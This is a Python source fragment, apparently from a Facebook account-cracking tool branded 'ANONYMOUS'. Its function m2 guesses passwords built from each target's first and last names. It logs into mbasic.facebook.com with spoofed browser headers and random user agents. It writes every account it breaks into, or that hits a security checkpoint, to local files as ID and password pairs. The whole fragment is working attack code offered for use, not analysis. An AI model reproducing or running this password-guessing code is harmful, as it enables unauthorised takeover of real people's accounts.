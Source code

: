 def m2(ids,names,passlist):
        global loop,oks,cps
        sys.stdout.write(f'\r\r\033[1;37m [\033[1;32mANONYMOUS] \033[1;36m•\033[1;37m %s \033[1;36m•\033[1;37m OK \033[1;36m•\033[1;37m [\033[1;32m%s\033[1;37m]'%(loop,len(oks)));sys.stdout.flush()
        session = requests.Session()
        try:
                first = names.split(f' ')[0]
                try:
                        last = names.split(f' ')[1]
                except:
                        last = 'ANONYMOUS'
                ps = first.lower()
                ps2 = last.lower()
                for fikr in passlist:
               	        pas = fikr.replace(f'First',first).replace(f'Last',last).replace(f'first',ps).replace(f'last',ps2)
                        ua=random.choice(ugen)
                        head = {'Host': 'mbasic.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="101", "Google Chrome";v="101"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Windows"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
                        getlog = session.get(f'https://mbasic.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
                        idpass ={"lsd":re.search(f'name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search(f'name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
                        complete = session.post(f'https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
                        Fof=session.cookies.get_dict().keys()
                        if "c_user" in Fof:
                                coki=session.cookies.get_dict()
                                kuki = (f";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
                                print(f'\r\r\033[1;32m [\033[1;32mANONYMOUS\033[1;36m•\033[1;37m\033[1;32mOK] %s \033[1;36m•\033[1;37m\033[1;32m %s'%(ids,pas))
                                #cek_apk(session,coki)
                                #print(f'\033[1;36m [Cookie]\033[1;37m : '+coki)
                                open(f'/sdcard/ANONYMOUS•OK•M2.txt', 'a').write(ids+'|'+pas+'\n')
                                oks.append(ids)
                                break
                        elif 'checkpoint' in Fof:
                                if 'y' in pcp:
                                        print(f'\r\r\x1b[38;5;208m [ANONYMOUS•CP] '+ids+' • '+pas+'\033[1;97m')
                                        open(f'/sdcard/ANONYMOUS•CP.txt', 'a').write(ids+'|'+pas+'\n')
                                        cps.append(ids)
                                        break
                                else:
                                        break
                        else:
                                continue
        except requests.exceptions.ConnectionError:
                time.sleep(20)
        loop+=1
